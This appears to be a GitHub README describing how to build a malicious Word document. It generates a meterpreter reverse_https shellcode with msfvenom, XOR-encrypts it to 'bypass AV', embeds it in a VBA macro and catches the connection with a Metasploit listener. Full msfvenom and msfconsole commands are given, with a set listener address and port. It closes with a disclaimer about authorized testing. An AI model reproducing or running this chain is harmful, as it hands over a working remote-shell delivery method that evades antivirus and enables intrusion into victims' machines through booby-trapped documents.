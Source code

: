 # VBA Payload Encryption and Execution

## Overview
This project demonstrates how to encrypt a shellcode (revshell) payload for execution within a Microsoft Word VBA macro. The encryption process enhances evasion techniques to **_<u>bypass AV</u>_** by encoding the payload before execution.

## Steps
### 1. Generate the Shellcode
Use `msfvenom` to generate a reverse HTTPS payload in C# format:
```sh
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.142 LPORT=443 EXITFUNC=thread -f csharp
```

### 2. Encrypt the Payload
- Use the provided C# encryption script (`XOR_encoder`) to XOR the shellcode with a static key (`0xFA`).
- The python3 script will do the same.

### 3. Embed the Encrypted Payload in VBA Macro
- Open Microsoft Word and access the VBA Editor (`ALT + F11`)
- Insert a new module and paste the `VBA_Macro_Shellcode_Execution` file content

### 4. Setup Metasploit Listener
Start Metasploit and configure the multi-handler:
```sh
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST 192.168.1.142; set LPORT 443; exploit"
```

### 5. Execute the VBA Macro
- Open the Word document containing the macro
- Enable macros when prompted
- The encrypted payload is decoded and executed in memory

![Captura de pantalla 2025-03-10 a la(s) 15 33 29](https://github.com/user-attachments/assets/7d719c6c-9e80-4f9e-8669-437b5c495510)


### 6. Compatibility Note
If Microsoft Word is running in 32-bit, the payload and handler must be adjusted for x86 compatibility by replacing `windows/x64/meterpreter/reverse_https` with `windows/meterpreter/reverse_https` in both the shellcode generation with msfvenom and the listener configuration in Metasploit.

A useful hint is to check whether Microsoft Word on the DEV or TEST machine is running in 64-bit or 32-bit mode. 

## Disclaimer
This project is intended for educational and authorized penetration testing purposes only. Unauthorized use is strictly prohibited.

